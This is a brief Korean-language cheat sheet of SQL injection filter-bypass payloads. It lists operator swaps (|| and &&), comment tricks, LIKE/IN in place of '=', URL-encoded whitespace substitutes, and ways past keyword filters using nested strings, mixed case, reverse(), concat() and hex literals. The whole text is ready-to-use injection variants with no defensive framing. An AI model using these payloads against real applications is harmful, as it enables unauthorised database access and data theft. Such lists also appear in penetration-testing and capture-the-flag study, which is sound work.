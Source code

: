 # SQL injection

### 필터링 우회

OR/AND     
->  ||/&&   
ex) select * from table where id='admin' or 1=1   
->  select * from table where id='admin' || 1=1   
ex) select * from table where id='admin' and pw='password'   
->  select * from table where id='admin' && pw='password'   

주석   
->  -- # ;%00 -- - %23 /**/   
-- 주석 뒤에 공백문자가 있어야 된다.  
-- - 주석   
%23는 #을 의미한다.  
/*  주석할 내용  */   

=   
->  like in   
ex) select * from table where id='admin'  
->  select * from table where id like 'admin'   
->  select * from table where id in('admin')   

공백문자   
* tab : %09
* line feed(\n) : %0a
* carrage return(\r) : %0d
* 주석 : /**/
* 괄호 : ()
* 더하기 : +   
ex) id='admin' or 1=1   
->  id='admin'%09or%091=1   
->  id='admin'%0aor%0a1=1   
->  id='admin'%0dor%0d1=1   
->  id='admin'/**/or/**/1=1   
->  id=(admin)or(1=1)   
->  id="admin"+or+1=1   

특정 문자열    
replace   
replace("admin","",$in) 일 때   
adadminmin으로 우회 가능   
+을 사용해서 우회   
ad+min우회   
대소문자를 이용하여 우회   
aDmIn으로 우회   
reverse   
reverse('nimda')   
concat   
concat('adm','in')   
16진수   
x'61646d696e'   
0x61646d696e;   
